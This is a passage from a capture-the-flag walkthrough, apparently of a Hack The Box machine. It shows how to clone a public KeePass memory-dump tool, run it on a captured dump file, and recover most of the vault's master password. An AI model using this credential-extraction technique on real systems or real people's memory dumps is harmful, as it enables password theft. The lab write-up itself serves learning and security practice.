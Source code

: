 This method is crude, but I can see the third character is likely “d”, and then “g” then “r”. This is what the exploit POCs will do, but a bit smarter to find the most likely key.

#### Exploit from Windows

From a Windows VM, the exploit is rather straight forward. I’ll clone the repo to my host and go into that directory (if `git` isn’t installed in your Windows VM, you can also download the ZIP from GitHub and unzip it):

```

PS C:\Users\0xdf > git clone https://github.com/vdohney/keepass-password-dumper
Cloning into 'keepass-password-dumper'...
remote: Enumerating objects: 111, done.
remote: Counting objects: 100% (111/111), done.
remote: Compressing objects: 100% (79/79), done.
remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
Receiving objects: 100% (111/111), 200.08 KiB | 3.45 MiB/s, done.
Resolving deltas: 100% (61/61), done.
PS C:\Users\0xdf > cd .\keepass-password-dumper\

```

Then I just need to `dotnet run [dump]`:

```

PS C:\Users\0xdf\keepass-password-dumper > dotnet run Z:\hackthebox\keeper-10.10.11.227\KeePassDumpFull.dmp
...[snip]...
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

```

That’s most of the password, with the first character missing and options for the second.
